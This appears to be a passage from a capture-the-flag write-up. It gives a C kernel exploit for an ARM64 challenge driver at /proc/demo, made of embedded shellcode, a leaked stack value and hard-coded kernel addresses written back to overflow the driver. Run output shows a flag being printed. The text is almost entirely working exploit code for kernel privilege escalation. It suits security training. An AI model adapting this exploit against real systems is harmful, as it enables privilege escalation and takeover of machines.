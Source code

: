 ```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/mman.h>

int main(){
    char buf[0x100];
    char exp[0x200]   = {0x00,0x00,0x80,0xd2,0x21,0x01,0x00,0x58,0x20,0x00,0x3f,0xd6,
                         0x21,0x01,0x00,0x58,0x20,0x00,0x3f,0xd6,0x35,0x01,0x00,0x58,
                         0x41,0x01,0x00,0x58,0xff,0x0f,0x40,0xd1,0x20,0x00,0x3f,0xd6,
                         0x00,0x00,0x00,0x00,0xf8,0x24,0x0a,0x08,0x00,0x80,0xff,0xff,
                         0x58,0x22,0x0a,0x08,0x00,0x80,0xff,0xff,0x00,0x00,0x50,0x00,
                         0x00,0x00,0x00,0x00,0x24,0x20,0x01,0x08,0x00,0x80,0xff,0xff};

    char user[0x200]  = {0xff,0x07,0x6b,0xb2,0xff,0x23,0x40,0x91,0xfd,0x13,0x40,0x91,
                         0xee,0xc5,0x8c,0xd2,0x8e,0x2d,0xac,0xf2,0xee,0x0c,0xc0,0xf2,
                         0xee,0x0f,0x1f,0xf8,0x80,0xf3,0x9f,0xd2,0xe0,0xff,0xbf,0xf2,
                         0xe0,0xff,0xdf,0xf2,0xe0,0xff,0xff,0xf2,0xe1,0x03,0x00,0x91,
                         0xe2,0x03,0x1f,0xaa,0x08,0x07,0x80,0xd2,0x01,0x00,0x00,0xd4,
                         0xe1,0x03,0x00,0xaa,0xe0,0x03,0x1f,0xaa,0xe2,0x03,0x1f,0xaa,
                         0xe3,0xff,0x9f,0xd2,0xe3,0xff,0xaf,0xf2,0xe8,0x08,0x80,0xd2,
                         0x01,0x00,0x00,0xd4,0xe0,0x03,0x1f,0xaa,0xa8,0x0b,0x80,0xd2,
                         0x01,0x00,0x00,0xd4};

    mmap((void *)0x500000,0x10000,7,MAP_ANON | MAP_SHARED,0,0);
    mmap((void *)0x600000,0x10000,7,MAP_ANON | MAP_SHARED,0,0);
    memcpy((void *)0x500000,user,0x200);

    int f = open("/proc/demo",O_RDWR);
    read(f,buf,0x100);
    *(long long *)(exp+0x80)  =  *(long long *)(buf+0x80);
    *(long long *)(exp+0x90)  = 0xffff80000884cc5c;
    *(long long *)(exp+0x1e8) = 0xffff800000e42388;
    *(long long *)(exp+0x1e0) = 1;                  
    *(long long *)(exp+0x1f0) = 0xffff800008030948;
    *(long long *)(exp+0xb0 ) = 0xffff800000e42388;
    write(f,exp,0x200);
}
```

成功返回用户态并打印flag：

```c
➜  ./run.sh

Boot took 0.89 seconds

~ $ ./exp
*CTF{test_flag}
~ $ 
```
